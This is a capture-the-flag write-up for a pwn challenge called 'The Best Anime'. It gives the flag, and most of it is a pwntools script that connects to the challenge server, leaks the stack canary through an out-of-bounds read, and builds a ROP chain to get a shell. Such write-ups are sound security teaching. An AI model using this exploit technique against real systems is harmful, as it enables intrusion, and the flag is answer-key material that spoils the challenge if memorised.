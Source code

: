 # pwn - The Best Anime - Writeup

---  

## FLAG：
`THJCC{d4rl1n9_1N_7hE_FR4nXx_15_7he-Be57}`

## Observation：
- A passcode `Darling in the FRANXX` is found.
- `darling()` has an **out-of-bounds read** vulnerability that can **leak the stack canary**.
- `main()`has a **buffer overflow** vulnerability that can trigger **arbitrary execution**.
- Use an ROP chain to execute `system("/bin/sh")`
## Step：
1. Input the passcode.
2. Input the out-of-bound index `14` and `15` to get the stack canary.
3. Setup the stack canary and construct the ROP chain.

## Exploit：  

```python
from pwn import *
from Crypto.Util.number import *
context.arch = 'amd64'
p = remote('cha-thjcc.scint.org', 10101)
#p = process('./the_best_anime')
p.sendlineafter(b'What is my favorite anime > ', b'Darling in the FRANXX')
  
p.sendlineafter(b'Select login user > ', b'14')
p.recvuntil(b'User ')
canary = p.recvuntil(b' selected', drop=True)
  
p.sendlineafter(b'Enter login passcode > ', b'15')
p.recvuntil(b'Passcode ')
canary = p.recvuntil(b' selected', drop=True) + canary
  
canary = int(canary,16)
print(f"{hex(canary) = }")
  
'''
rax = 0x3b
rdi = "/bin/sh\x00"
rsi = 0
rdx = 0
'''
  
bss = 0x4cc000               # writable address
pop_rdi = 0x0000000000494253
pop_rsi = 0x000000000041fcf5
pop_rdx = 0x000000000048a8dc # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
pop_rax = 0x0000000000434bbb
mov_rsi_rax = 0x000000433f95 # mov qword ptr [rsi], rax ; ret
syscall = 0x0000000000401364
  
payload = b'A'*56 + flat([canary, 0,
                          pop_rax, u64(b'/bin/sh\x00'),
                          pop_rsi, bss,
                          mov_rsi_rax,
                          pop_rdx, 0, 0, 0, 0, 1,
                          pop_rax, 0x3b,
                          pop_rdi, bss,
                          pop_rsi, 0,
                          syscall
                         ])
p.sendline(payload)
p.interactive()
```

![pic](pic/flag.png)